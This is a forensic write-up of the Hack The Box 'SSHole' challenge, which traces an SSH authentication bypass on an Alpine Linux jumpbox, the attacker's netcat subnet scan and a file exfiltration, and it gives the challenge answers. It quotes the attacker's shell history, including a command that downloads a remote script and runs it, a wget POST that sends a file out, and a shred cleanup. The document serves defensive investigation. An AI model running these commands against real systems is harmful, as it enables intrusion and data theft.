


# HTB Sherlock: SSHole — Digital Forensics Investigation

**Platform:** Hack The Box  
**Sherlock:** SSHole  
**Difficulty:** Very Easy  
**Prepared by:** CyberJunkie  
**Sherlock Author:** CyberJunkie  
**Scenario date:** 2026-11-06  
**Category:** DFIR / Linux Forensics  
**Primary focus:** SSH authentication bypass, log analysis, SSH investigation, Unix forensics

---

## 1. Executive Summary

This investigation examines a compromised Linux jumpbox that was accessed through an SSH authentication bypass vulnerability. Following initial access, the attacker performed internal network reconnaissance and subsequently transferred a file to an external destination.

The supplied artifacts included Linux system configuration files, user home directories, shell history, and system logs.

The investigation identified the targeted operating system as Alpine Linux 3.24.3. Analysis of the SSH configuration and `/etc/shadow` revealed that the `adminsvc` account had an asterisk (`*`) in its password field. The SSH logs showed a failed password event followed by an accepted password event for the same account and source address.

The observed authentication pattern was consistent with the SSH authentication bypass associated with CVE-2026-123158.

Further analysis of the `adminsvc` shell history revealed that the attacker used Netcat to scan the internal `192.168.18.0/24` network, downloaded and executed a script from GitHub, accessed a file named `/tmp/.devenv`, submitted that file to an external URI using HTTP POST, and then deleted it using `shred`.

## 2. Scenario

Suspicious traffic was observed from a misconfigured jumpbox to a suspicious domain.

The investigation was intended to determine:

- How the attacker gained access to the jumpbox.
- Which vulnerability was abused.
- Which user account was targeted.
- What activity the attacker performed after gaining access.
- Which internal systems were discovered.
- Where the attacker transferred a sensitive file.

## 3. Evidence and Initial Analysis

### 3.1 Challenge Artifact

**Archive:** `SSHole.zip`

**Provided SHA-256:**

```text
6B5198D275BC099BB3007F1E609F9AC9CA641A70306AD495D2B915D4626C73AE
```

The challenge archive was password-protected.

### 3.2 Extracting the Evidence

The archive was extracted using:

```bash
unzip challenge.zip
```

The extraction process prompted for a password:

```text
[challenge.zip] SSHole/etc/acpi/PWRF/00000080 password:
```

The supplied password was:

```text
hacktheblue
```

After successful extraction, the resulting directory structure contained:

```text
SSHole/
├── etc/
├── home/
├── root/
└── var/
```

**Evidence:** `

`

### 3.3 Examining the Extracted Directories

The extracted directory contents were examined using:

```bash
ls -la
```

The output showed the following directories:

- `etc/` — system and service configuration files.
- `home/` — user home directory contents and shell history.
- `root/` — root user's files and shell history.
- `var/` — system logs and other variable data.

The home directory contained information relating to the `adminsvc` account, including its shell history and an additional text file.

The `/var/log` directory contained the system logs required for the investigation.

**Evidence:** `

`

## 4. Investigation Environment and Artifacts

The investigation was performed using the extracted challenge evidence in a Kali Linux environment.

Important artifacts examined:

| Artifact | Investigation purpose |
|---|---|
| `/etc/os-release` | Identify the Linux distribution and version |
| `/etc/shadow` | Examine account password-field values |
| `/var/log/messages` | Investigate SSH authentication events |
| `/home/adminsvc/.ash_history` | Reconstruct commands executed by the compromised account |
| `/home/adminsvc/scanreport.txt` | Examine the internal network scan results |

### 4.1 Alpine Linux Logging

During the investigation, no separate `auth.log` file was available in the supplied Alpine Linux evidence.

Instead, SSH authentication events were found in:

```text
/var/log/messages
```

This log uses syslog-style entries and includes SSH authentication information.

## 5. Investigation and Findings

### 5.1 Identify the Linux Distribution and Version

**Question 1:** What Linux distribution name and version was the targeted server running?

Linux distribution information can be obtained from:

```text
/etc/os-release
```

The following command was used:

```bash
cat os-release
```

The output contained:

```text
NAME="Alpine Linux"
ID=alpine
VERSION_ID=3.24.3
PRETTY_NAME="Alpine Linux v3.24"
HOME_URL="https://alpinelinux.org/"
BUG_REPORT_URL="https://gitlab.alpinelinux.org/alpine/aports/-/issues"
```

The `VERSION_ID` field identifies the installed version as `3.24.3`.

**Evidence:** `screenshots/pic3.png`

**Answer:**

`Alpine Linux 3.24.3`

### 5.2 Identify the Vulnerability Used to Gain Access

**Question 2:** What is the CVE ID of the vulnerability abused by the attacker to gain access?

The investigation began by identifying the operating system version and researching the vulnerability associated with the SSH authentication behavior.

The vulnerability identified during this investigation was:

```text
CVE-2026-123158
```

The vulnerability is associated with an SSH authentication bypass affecting OpenSSH implementations using the relevant musl `crypt()` behavior.

The investigation then examined the `/etc/shadow` file and SSH logs to determine whether the expected conditions and authentication pattern were present.

**Evidence:** `screenshots/pic4.png`

**Answer:**

`CVE-2026-123158`

### 5.3 Understand the Authentication Bypass Mechanism

The investigation identified a potentially important password-field value in `/etc/shadow`.

On the affected configuration described in the challenge, the authentication process involves OpenSSH interacting with the system's `crypt()` function.

The observed bypass mechanism is based on an error-handling and password-comparison issue:

1. An account configured without a normal password hash can have an asterisk (`*`) in its `/etc/shadow` password field.
2. A specially crafted, excessively long password input causes the vulnerable `crypt()` implementation to return an asterisk (`*`).
3. The returned value matches the asterisk stored in the account's password field.
4. The comparison can therefore incorrectly result in successful authentication.

This explains why an account intended for key-based authentication could be affected by the vulnerability.

The specific string value relevant to the bypass is:

```text
*
```

### 5.4 Examine the Shadow File

The following command was used:

```bash
cat shadow
```

The relevant entry was:

```text
adminsvc:*:20763:0:99999:7:::
```

The password field for `adminsvc` contains an asterisk (`*`) rather than a conventional password hash.

This is an important finding because it is consistent with the account condition described in the SSH authentication bypass.

**Evidence:** `screenshots/pic5.png`

### 5.5 Examine SSH Authentication Events

After examining the shadow file, the investigation moved to the SSH-related records in `/var/log/messages`.

The following command was used:

```bash
cat messages | grep -i "adminsvc"
```

The output contained three relevant events:

```text
Nov  6 11:27:05 dev-jumpbox auth.info sshd-session[4852]: Failed password for adminsvc from 192.168.72.1 port 61351 ssh2

Nov  6 11:27:08 dev-jumpbox auth.info sshd-session[4852]: Accepted password for adminsvc from 192.168.72.1 port 61351 ssh2

Nov  6 12:20:02 dev-jumpbox auth.info sshd-session[4854]: Disconnected from user adminsvc 192.168.72.1 port 61351
```

The first event records a failed password attempt.

Three seconds later, the same account and source address appear in an accepted password event.

This is significant because the `adminsvc` account's password field contained an asterisk in `/etc/shadow`.

The combination of the account configuration and the SSH authentication events supports the conclusion that the vulnerable authentication behavior was exploited.

**Evidence:** `screenshots/pic6.png`

### 5.6 Determine When the Vulnerability Was Exploited

**Question 3:** When did the attacker exploit the vulnerability?

The SSH authentication records showed:

```text
Nov  6 11:27:05 ... Failed password for adminsvc ...
Nov  6 11:27:08 ... Accepted password for adminsvc ...
```

The accepted password event indicates the point at which the authentication bypass succeeded.

Using the scenario date, the successful authentication timestamp is:

```text
2026-11-06 11:27:08
```

**Evidence:** `screenshots/pic6.png`

**Answer:**

`2026-11-06 11:27:08`

### 5.7 Identify the Abused User Account

**Question 4:** Which user account was abused by the attacker?

The `/etc/shadow` file showed that `adminsvc` had an asterisk in its password field.

The SSH log also recorded both failed and accepted password authentication events for the same account.

The two artifacts provide supporting evidence that the attacker abused the `adminsvc` account to gain access.

**Evidence:**

- `screenshots/pic5.png` — shadow file entry.
- `screenshots/pic6.png` — SSH authentication events.

**Answer:**

`adminsvc`

### 5.8 Identify the String Value That Causes the Authentication Bypass

**Question 5:** What string value causes the authentication bypass?

The vulnerability mechanism described in the investigation involves the return value from the vulnerable `crypt()` function matching the password field stored in `/etc/shadow`.

For the affected account, the relevant stored value was an asterisk.

When the specially crafted password input causes the cryptographic function to return the same value, the comparison can incorrectly succeed.

The matching string value is:

```text
*
```

**Evidence:** `screenshots/pic5.png` and `screenshots/pic7.png`

**Answer:**

`*`

### 5.9 Investigate Internal Network Reconnaissance

**Question 6:** What command did the attacker use to scan the network reachable via the jumpbox, allowing them to target internal developer systems?

After identifying the compromised account, the investigation examined its shell history.

The following command was used:

```bash
cat .ash_history
```

The history contained:

```bash
ls -la

for ip in {1..254}; do nc -zvw 1 192.168.18.$ip 1-65535 2>&1 | grep -E "succeeded|open"; done

vi scanreport.txt

cat scanreport.txt

bash <(wget -qO- https://raw.githubusercontent.com/papinyurii33/devscripts/refs/heads/main/setup.sh)

ls -la /tmp

ls -l /tmp/.devenv

wget --post-file=/tmp/.devenv -O- https://devv.coding.eu/process

shred -u /tmp/.devenv

exit
```

The attacker used Netcat (`nc`) to scan the internal network.

The command iterated through addresses from `192.168.18.1` to `192.168.18.254` and checked ports `1-65535`.

The options used include:

- `-z` — scan without sending application data.
- `-v` — verbose output.
- `-w 1` — use a one-second connection timeout.

The output was filtered for successful or open connection results.

The attacker subsequently created and examined `scanreport.txt`.

The file contained:

```text
192.168.18.5 443 445 3389

192.168.18.23 88 139 445 3389 6801 54321
```

These results show two internal IP addresses with the listed reachable ports.

The presence of port `88` on `192.168.18.23` is consistent with Kerberos-related infrastructure, while the combination of discovered ports provides useful context for further investigation. The scan output alone does not conclusively establish the role of either host.

**Evidence:** `screenshots/pic8.png`

**Answer:**

```bash
for ip in {1..254}; do nc -zvw 1 192.168.18.$ip 1-65535 2>&1 | grep -E "succeeded|open"; done
```

### 5.10 Identify the Exfiltration URI

**Question 7:** What was the exfiltration URI where the attacker exfiltrated a sensitive file?

The `adminsvc` shell history showed several commands following the internal network scan.

First, the attacker retrieved and executed a script from GitHub:

```bash
bash <(wget -qO- https://raw.githubusercontent.com/papinyurii33/devscripts/refs/heads/main/setup.sh)
```

The command uses `wget` to retrieve a script and passes its output directly to Bash.

Next, the attacker examined the `/tmp` directory and checked for a file named:

```text
/tmp/.devenv
```

The following command was then recorded:

```bash
wget --post-file=/tmp/.devenv -O- https://devv.coding.eu/process
```

The `--post-file` option instructs `wget` to send the specified file contents in an HTTP POST request.

The destination URI was:

```text
https://devv.coding.eu/process
```

After the POST command, the shell history recorded:

```bash
shred -u /tmp/.devenv
```

The `shred -u` command is used to overwrite and remove a file.

The sequence of commands is consistent with the attacker transferring the contents of `/tmp/.devenv` to an external destination and then attempting to remove the local file.

The actual contents of `.devenv` are not established by the shell history alone. Its description as a sensitive file is based on the investigation context and the attacker's subsequent actions.

**Evidence:** `screenshots/pic9.png`

**Answer:**

`https://devv.coding.eu/process`

## 6. Attack Timeline

The following timeline consolidates the timestamps and actions observed in the supplied artifacts.

| Timestamp | Activity | Evidence |
|---|---|---|
| 2026-11-06 11:27:05 | Failed SSH password authentication for `adminsvc` from `192.168.72.1` | `/var/log/messages` |
| 2026-11-06 11:27:08 | Successful SSH password authentication for `adminsvc` from `192.168.72.1` | `/var/log/messages` |
| After initial access | Internal network scan of `192.168.18.0/24` | `.ash_history` |
| After network scan | Creation and review of `scanreport.txt` | `.ash_history` |
| After reconnaissance | Retrieval and execution of a GitHub-hosted script | `.ash_history` |
| After script execution | Inspection of `/tmp/.devenv` | `.ash_history` |
| Subsequent activity | POST transfer of `/tmp/.devenv` to `https://devv.coding.eu/process` | `.ash_history` |
| Subsequent activity | Removal attempt using `shred -u` | `.ash_history` |

The shell history does not provide exact timestamps for the post-login commands, so their precise execution times cannot be established from the supplied evidence.

## 7. Indicators and Observables

| Type | Value | Context |
|---|---|---|
| Target OS | Alpine Linux 3.24.3 | Operating system identification |
| CVE | `CVE-2026-123158` | SSH authentication bypass identified in the investigation |
| Compromised account | `adminsvc` | Account associated with the accepted SSH authentication event |
| Source IP | `192.168.72.1` | Source of the recorded SSH authentication attempts |
| Internal subnet | `192.168.18.0/24` | Network scanned from the jumpbox |
| Internal host | `192.168.18.5` | Discovered during reconnaissance |
| Internal host | `192.168.18.23` | Discovered during reconnaissance |
| Downloaded script | `https://raw.githubusercontent.com/papinyurii33/devscripts/refs/heads/main/setup.sh` | Script retrieval command |
| File path | `/tmp/.devenv` | File inspected and submitted |
| Exfiltration URI | `https://devv.coding.eu/process` | Destination of the POST request |

These values are investigation observables from the challenge environment. They should be validated independently before being used in a real-world threat intelligence blocklist.

## 8. Defensive Recommendations

### SSH authentication

- Keep OpenSSH and the operating system's cryptographic libraries patched.
- Review SSH authentication configuration.
- Disable password authentication where it is not required.
- Use strong, controlled authentication methods.
- Monitor unexpected password authentication for accounts intended for key-based access.

### Linux account monitoring

- Review `/etc/shadow` for unexpected or insecure account configurations.
- Investigate accounts with unusual password-field values.
- Monitor authentication events for accounts that should not accept password logins.

### Network reconnaissance

- Monitor unusual connection attempts to large numbers of internal IP addresses and ports.
- Investigate unexpected use of Netcat from jumpboxes.
- Restrict jumpbox access to only the internal systems and services required.

### Data exfiltration

- Monitor outbound HTTP and HTTPS connections from sensitive servers.
- Investigate unusual POST requests and file uploads to unapproved external domains.
- Monitor suspicious activity involving files in temporary directories.
- Preserve relevant logs and endpoint evidence before attempting remediation.

### Post-compromise activity

- Investigate scripts downloaded and executed directly from remote repositories.
- Monitor suspicious file deletion and secure removal commands.
- Correlate shell history, network logs, authentication logs, and endpoint telemetry.

## 9. Lessons Learned

This investigation demonstrates the importance of correlating Linux configuration files, authentication logs, and shell history.

Key lessons:

1. `/etc/os-release` provides useful operating system identification information.
2. Linux distributions may store authentication events in different log files.
3. `/etc/shadow` can reveal account password-field configurations relevant to authentication investigations.
4. Authentication events must be correlated with account configuration to identify unusual login behavior.
5. Shell history can provide valuable evidence of post-compromise activity.
6. Netcat can be used as a network reconnaissance tool.
7. A POST request using `wget --post-file` can indicate file transfer to an external destination.
8. File deletion commands do not remove the need to investigate the earlier file access and transfer activity.

## 10. References

- Hack The Box — SSHole Sherlock
- Alpine Linux — [Official website](https://alpinelinux.org/)
- MITRE ATT&CK — [Enterprise ATT&CK knowledge base](https://attack.mitre.org/)

## 11. Investigation Conclusion

The investigation identified an SSH authentication bypass affecting the compromised Alpine Linux jumpbox.

The attacker gained access through the `adminsvc` account. Following initial access, the attacker performed internal network reconnaissance, retrieved and executed a remote script, accessed `/tmp/.devenv`, transferred the file to an external URI, and subsequently attempted to remove the local file.

The findings demonstrate how a compromised jumpbox can be used as a pivot point for internal reconnaissance and subsequent data exfiltration.

**SSHole investigation completed.**

---

*This is an original educational writeup based on the Hack The Box SSHole challenge and the supplied investigation evidence.*
